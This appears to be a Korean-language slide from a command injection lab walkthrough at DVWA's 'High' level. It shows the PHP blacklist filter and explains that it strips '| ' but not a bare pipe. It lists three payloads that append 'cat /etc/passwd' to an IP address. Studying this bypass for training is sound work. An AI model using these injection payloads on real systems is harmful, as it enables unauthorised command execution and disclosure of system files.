

3-2) Command Injection

# 4. 공격 진행 (Security Level : High)
2) High Level 소스코드 분석 (변경된 부분만 표시)

127.0.0.1|cat /etc/passwd > 됨
127.0.0|| cat /etc/passwd > 됨
127.0.0.1|(cat /etc/passwd) > 됨
파이프라인+공백 과 파이프라인2개만 필터링 하고있음으로 구문상의 헛점을 이용한  '| '와 '||＇를 이용한 위 3개의 코드만 공격이 가능함을 확인

<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $target = trim($_REQUEST[ 'ip' ]);

    // Set blacklist
    $substitutions = array(
        '&'  => '',
        ';'  => '',
        '| ' => '',
        '-'  => '',
        '$'  => '',
        '('  => '',
        ')'  => '',
        '`'  => '',
        '||' => '',
    );

→ Command Injection에 활용되는
  연산자들을 전부 치환하여 삭제처리
→ ‘|’, ‘||’ 에 대한 필터링이 적용된것처럼 보이나
‘|’의 경우엔 ‘| + 공백’이 포함되어 있는 입력값에
대해서만 필터링하기 때문에 취약점으로 활용가능